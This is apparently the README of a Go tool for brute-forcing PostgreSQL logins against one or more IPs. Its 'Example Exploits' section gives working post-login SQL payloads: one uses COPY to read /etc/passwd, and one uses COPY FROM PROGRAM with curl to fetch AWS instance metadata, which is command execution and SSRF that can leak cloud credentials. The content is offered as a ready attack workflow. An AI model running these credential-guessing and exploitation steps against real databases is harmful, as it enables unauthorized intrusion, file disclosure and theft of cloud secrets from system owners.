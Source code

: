 # postgres-bruteforcer

About
---

This Go script reads a list of usernames and passwords from a file called `creds.txt` and tests them against a PostgreSQL database. 

The script accepts an IP of the PostgreSQL server as a command line argument or a text file of ip's. 

If an access is granted, the script writes this output to a file called `pg-output.txt`.

If the user `postgres` is avalible this is normally a super user which can allow RCE or LFI or SSRf.


How to install
---

```
go install -v github.com/RandomRobbieBF/postgres-bruteforcer@latest
```

How to run
---

```
go run postgres-brute.go 1.1.1.1

postgres

```


Example Exploits
----

Grab `/etc/passwd/`

```
CREATE TABLE myfile (input TEXT);
COPY myfile FROM '/etc/passwd';
SELECT input FROM myfile;
```

SSRF - Grab AWS Metadata

```
CREATE TABLE weather_json (cities TEXT);
COPY weather_json FROM PROGRAM 'curl -L http://169.254.169.254/latest/meta-data/';
SELECT weather_json FROM weather_json;
```


